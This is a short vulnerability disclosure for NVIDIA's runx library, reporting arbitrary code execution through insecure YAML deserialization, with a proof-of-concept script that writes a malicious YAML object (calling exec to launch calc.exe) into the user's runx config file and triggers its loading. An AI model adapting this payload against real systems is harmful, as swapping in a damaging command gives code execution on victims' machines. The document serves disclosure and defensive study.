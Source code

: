 # Description

**runx** is a Deep Learning Experiment Management library by NVIDIA.
This package was vulnerable to Arbitrary code execution via Insecure YAML deserialization due to the use of a known vulnerable function **load()** in **yaml**. <br>
repo: https://github.com/NVIDIA/runx

# Proof of Concept

```python
#!/usr/bin/env python3

import runx.utils as runx
import os

payload = '''
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
'''

# create payload file in ~/.config/runx.yml
if not (os.path.isdir(os.environ['HOME'] + '/.config')):
    os.mkdir(os.environ['HOME'] + '/.config')
open(os.environ['HOME'] + '/.config/runx.yml', 'w+').write(payload)

runx.read_config_file()

print("pwned! 🏴")
```

* `pip3 install runx`
* `python3 exploit.py`
